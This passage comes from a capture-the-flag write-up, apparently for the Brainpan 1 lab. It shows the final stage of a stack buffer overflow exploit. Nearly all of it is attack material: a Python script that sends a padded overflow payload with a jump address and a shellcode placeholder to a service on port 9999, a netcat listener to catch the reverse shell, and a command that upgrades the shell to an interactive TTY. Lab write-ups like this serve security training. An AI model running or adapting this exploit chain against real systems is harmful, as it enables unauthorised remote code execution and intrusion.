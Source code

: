 Take this output and place it in our script: 


```python
import socket, sys

buf = <place venom here>
padding = b'\x90' * 32
buffer = b'A' * 524
opcode = b'\xf3\x12\x17\x31'

payload = buffer + opcode + padding + buf


try:
	conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	conn.connect(('192.168.60.15', 9999))
		
	conn.sendall(payload)
	conn.close()
	
except Exception as e:
	print(e)
	sys.exit()
```


Set up the listener: `nc -lnvp 9001`

Run the final script: `./brainpan.py`

And we get a shell: 

![shell33](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/brainpan1/img/shell33.png)


Once inside just run the below command to spwan a tty shell:
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

![tty34](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/brainpan1/img/tty34.png)
